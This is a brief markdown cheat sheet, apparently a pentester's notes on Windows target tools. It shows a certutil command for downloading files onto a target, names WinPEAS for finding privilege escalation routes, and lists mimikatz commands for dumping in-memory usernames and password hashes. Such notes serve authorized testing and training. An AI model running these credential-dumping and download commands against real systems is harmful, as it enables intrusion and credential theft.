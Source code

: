 # Windows Target (Tools)

- [certutil.exe](#cerutil.exe): an http / file-download client built into windows
- [WinPEAS](#winpeas): privilege escalation vector detection
- [mimikatz](#mimikatz): privilege escalation vector detection

## certutil.exe

An http / file-download client built into windows ([docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)).

Usage:

```
certutil.exe -urlcache -f ${URL} ${OUTPUT_FILENAME}
```

## WinPEAS

A privilege escalation vector detection script for Windows ([docs](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)) ([releases](https://github.com/carlospolop/PEASS-ng/releases)).

Usage: (just invoke the binary for the script to run)

```
winpeas.exe
```

## mimikatz

Extracts in-memory credentials (usernames + password hashes) ([src](https://github.com/ParrotSec/mimikatz)).

Usage: (just invoke the binary for an interactive prompt)

```
mimikatz.exe
```

Some commands:

- `privilege::debug` escalates the privilege of mimikatz
- `log` will start a log file in the current working directory
- `lsadump::lsa /inject` dumps usernames and password *hashes* with the 'inject' method
- `sekurlsa::logonpasswords` same as above but more thorough / more info


## findstr

Basically `grep` for Windows...

Usage:

```
> dir | findstr 'txt'
```
